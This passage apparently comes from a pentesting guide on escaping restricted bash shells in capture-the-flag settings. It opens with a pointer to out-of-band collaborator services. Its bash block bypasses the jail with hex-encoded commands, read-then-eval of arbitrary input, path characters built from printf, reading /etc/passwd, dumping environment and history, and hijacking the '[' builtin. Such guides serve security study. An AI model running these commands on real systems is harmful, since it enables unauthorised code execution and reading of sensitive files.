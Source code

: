 You could use **burpcollab** or [**pingb**](http://pingb.in) for example.

### Builtins

In case you cannot execute external functions and only have access to a **limited set of builtins to obtain RCE**, there are some handy tricks to do it. Usually you **won't be able to use all** of the **builtins**, so you should **know all your options** to try to bypass the jail. Idea from [**devploit**](https://twitter.com/devploit).\
First of all check all the [**shell builtins**](https://www.gnu.org/software/bash/manual/html\_node/Shell-Builtin-Commands.html)**.** Then here you have some **recommendations**:

```bash
# Get list of builtins
declare builtins

# In these cases PATH won't be set, so you can try to set it
PATH="/bin" /bin/ls
export PATH="/bin"
declare PATH="/bin"
SHELL=/bin/bash

# Hex
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")

# Input
read aaa; exec $aaa #Read more commands to execute and execute them
read aaa; eval $aaa

# Get "/" char using printf and env vars
printf %.1s "$PWD"
## Execute /bin/ls
$(printf %.1s "$PWD")bin$(printf %.1s "$PWD")ls
## To get several letters you can use a combination of printf and
declare
declare functions
declare historywords

# Read flag in current dir
source f*
flag.txt:1: command not found: CTF{asdasdasd}

# Read file with read
while read -r line; do echo $line; done < /etc/passwd

# Get env variables
declare

# Get history
history
declare history
declare historywords

# Disable special builtins chars so you can abuse them as scripts
[ #[: ']' expected
## Disable "[" as builtin and enable it as script
enable -n [
echo -e '#!/bin/bash\necho "hello!"' > /tmp/[
chmod +x [
export PATH=/tmp:$PATH
if [ "a" ]; then echo 1; fi # Will print hello!
```
